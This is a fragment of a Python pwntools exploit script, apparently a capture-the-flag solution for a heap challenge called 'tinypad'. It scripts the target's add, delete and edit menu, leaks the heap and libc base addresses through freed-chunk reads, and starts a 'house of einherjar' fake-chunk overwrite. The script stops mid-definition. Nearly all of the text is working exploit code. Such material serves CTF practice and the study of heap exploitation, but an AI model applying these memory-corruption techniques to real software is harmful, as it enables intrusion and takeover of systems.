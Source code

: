 ```python

def debug(cmd):
	gdb.attach(p, cmd)
	pause()

def add(size, content):
	p.recvuntil('(CMD)>>> ')
	p.sendline('A')
	p.recvuntil('(SIZE)>>> ')
	p.sendline(str(size))
	p.recvuntil('(CONTENT)>>> ')
	p.sendline(content)


def delete(index):
	p.recvuntil('(CMD)>>> ')
	p.sendline('D')
	p.recvuntil('(INDEX)>>> ')
	p.sendline(str(index))


def edit(index, content):
	p.recvuntil('(CMD)>>> ')
	p.sendline('E')
	p.recvuntil('(INDEX)>>> ')
	p.sendline(str(index))
	p.recvuntil('CONTENT: ')
	p.sendline(content)
	p.recvuntil('(Y/n)>>> ')
	p.sendline('Y')

#leak heap
add(0x70, 'a' * 8)  # idx 0
add(0x70, 'b' * 8)  # idx 1
add(0x100, 'c' * 8)  # idx 2

delete(2)	#idx 1
delete(1)	#idx 0
# debug('bin\n')
p.recvuntil('# CONTENT: ')
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8, '\x00')) - 0x80
print (hex(heapbase))
# debug('bin\n')

#leak libc
delete(3)	#idx 2
p.recvuntil('# CONTENT: ')
main_arena = u64(p.recvuntil('\n')[:-1].ljust(8, '\x00')) - 88
base = main_arena- main_arena_offset
libc.address = base
print (hex(base))

#house of einherjar
add(0x18, 'a' * 0x18)  # idx 0
add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
add(0x100, 'c' * 0xf8)  # idx 2
add(0x100, 'd' * 0xf8)  #idx 3

tinypad_addr = 0x602040
fake_chunk = flat([
	p64(0),
	p64(0x101),
	p64(tinypad_addr + 0x20),
```